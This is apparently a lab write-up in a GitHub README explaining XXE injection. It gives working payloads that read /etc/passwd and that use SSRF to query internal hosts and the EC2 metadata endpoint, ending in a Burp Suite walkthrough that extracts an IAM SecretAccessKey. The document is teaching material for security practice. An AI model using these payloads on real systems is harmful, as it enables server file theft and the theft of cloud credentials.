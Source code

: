 # Exploiting XXE to Extract Files and Perform SSRF 🚨

XXE (XML External Entity) is a vulnerability that allows attackers to extract files from a server or even perform Server-Side Request Forgery (SSRF) attacks. This guide covers both use cases with detailed examples. 💡

## Part 1: Extracting Files

### 1. Prepare XML for the Attack 📝

To perform an XXE injection:

1. **Add or modify the DOCTYPE** to define an external entity pointing to the target file path.
2. **Modify the XML data** to inject the external entity into the desired value.

Example of the original XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>381</productId>
</stockCheck>
```

XXE payload to extract the `/etc/passwd` file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

### 2. Executing the Attack 💻

**Step 1**. Define the DOCTYPE and external entity:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

**Step 2**. Use the external entity in `productId`:
```xml
<productId>&xxe;</productId>
```

**Result**: The application response might look like this:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Part 2: Performing SSRF

### What is SSRF?

Beyond extracting confidential data, XXE can be used for Server-Side Request Forgery (SSRF). This is a critical vulnerability where the server application is forced to make HTTP requests to any URL accessible to it.

If the injected entity is used in a data value returned in the application response, you can view the response from the targeted URL. Otherwise, only blind SSRF attacks are possible, which can still have serious consequences.

### Example: Targeting an Internal System

This XXE payload forces the server to make an internal HTTP request:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

### Example: Accessing EC2 Metadata

In this lab example, the server hosts a (simulated) EC2 metadata endpoint at the default URL: `http://169.254.169.254/`. This endpoint can be used to extract instance metadata, including confidential data such as the IAM secret access key.

#### Steps to Perform the SSRF Attack

### 1. Start with the Product List
Choose any product from the list:

![Product List](https://github.com/user-attachments/assets/5b1c2835-49a4-4c35-a8f6-868e64b152b0)

---

### 2. Analyze the Request
Enable your proxy tool (e.g., Burp Suite) and click **"Check Stock"**:

![Stock Check Button](https://github.com/user-attachments/assets/befde5fc-be41-4db5-b1ea-157f5f333b26)

---

### 3. Intercept the Request
In **Proxy → HTTP History**, find the POST request to `/product/stock` and send it to **Repeater**:

![POST Request](https://github.com/user-attachments/assets/1ca2ef83-dade-4541-9769-49efdf5b66ec)

---

### 4. Inject the Payload 🚀

Insert the following external entity definition between the XML declaration and the `stockCheck` element:
```xml
<!DOCTYPE eyes [ <!ENTITY ears SYSTEM "http://169.254.169.254/"> ]>
```

Change the `productId` value to `&ears;`:

![Injecting SSRF Payload](https://github.com/user-attachments/assets/07499e10-bfeb-4136-b7e3-40bf768b2721)

---

### 5. View the Response
The response should contain `Invalid product ID:` followed by a directory name from the metadata endpoint:

![Response with Metadata Directory](https://github.com/user-attachments/assets/3423349d-50a9-47c4-9577-bb8dfe43d3d8)

---

### 6. Explore Further 🚧
Iteratively update the endpoint URL in the DTD to explore the API. For example, accessing `/latest/meta-data/iam/security-credentials/admin` returns JSON containing the `SecretAccessKey`:

![Secret Access Key JSON](https://github.com/user-attachments/assets/75bdacca-9636-450b-bef0-e1d441ca4f9b)

---

## Testing Tips 🔍

- **Test each XML node** for potential entity injection.
- Ensure the server includes the result in its response for non-blind SSRF.
- Use proxy tools (e.g., Burp Suite) to analyze and modify requests.
